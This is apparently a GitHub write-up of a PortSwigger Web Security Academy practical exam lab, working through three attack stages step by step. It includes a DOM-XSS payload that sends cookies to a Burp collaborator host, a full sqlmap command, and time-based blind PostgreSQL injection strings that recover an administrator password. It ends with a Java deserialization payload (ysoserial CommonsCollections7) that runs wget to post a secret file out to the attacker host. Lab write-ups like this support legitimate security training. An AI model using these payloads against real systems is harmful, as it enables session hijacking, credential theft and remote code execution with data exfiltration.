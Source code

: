# Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)


dots are blocked => first bypass to get cookie => alert(document['cookie']) </br>

Cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.

![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)

![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)


Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

![image](https://user-images.githubusercontent.com/40497633/233630036-b0f18f22-36d5-4e93-9d38-d8a63658da5e.png)


Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233630972-9d0c611e-6f37-458f-8fdc-ba2e5233c144.png)


20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233631386-ddf5a1da-c494-4942-a58d-5c53c868aa30.png)
![image](https://user-images.githubusercontent.com/40497633/233631517-fbbc06d0-1dc7-4886-ae9f-89347e25d57f.png)
![image](https://user-images.githubusercontent.com/40497633/233631598-4bd414ff-a32f-493d-b288-bebf8050dd6c.png)

![image](https://user-images.githubusercontent.com/40497633/233632259-3a0fcab8-dced-4286-bfe1-641aeeb223b5.png)

1234567891011121314151617181920 </br>
b9v9whchew y p e w t l 1 y g v

creds admin: </br>
login: administrator </br>
password: b9v9whchewypewtl1ygv </br>

Administrator account takeover!

![image](https://user-images.githubusercontent.com/40497633/233632577-10e78dca-ac22-4393-88e2-4b3161f3841c.png)


# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

SQLi => possible - (no interactions on admin panel so only possibility in headers)
XXE => not possible cause no interactions on admin panel
SSRF => possible only in headers
OS injection => possible only on headers
Deserial => possible + (Cookie look java serialized)
File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

extension Java deserialisation scanner => exploitation 

![image](https://user-images.githubusercontent.com/40497633/233633030-60e1c7bd-e027-457a-8f42-b6dabbf77025.png)


Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

![image](https://user-images.githubusercontent.com/40497633/233633752-42f9ab49-33e5-402b-ba27-992a27f24541.png)

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

![image](https://user-images.githubusercontent.com/40497633/233633925-7d79152e-d7c9-4f32-a3c7-8350140b6158.png)


/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.

Practical Exam Completed !

![image](https://user-images.githubusercontent.com/40497633/233634102-07d01a1c-a211-4af8-9a77-bf7a8572774e.png)

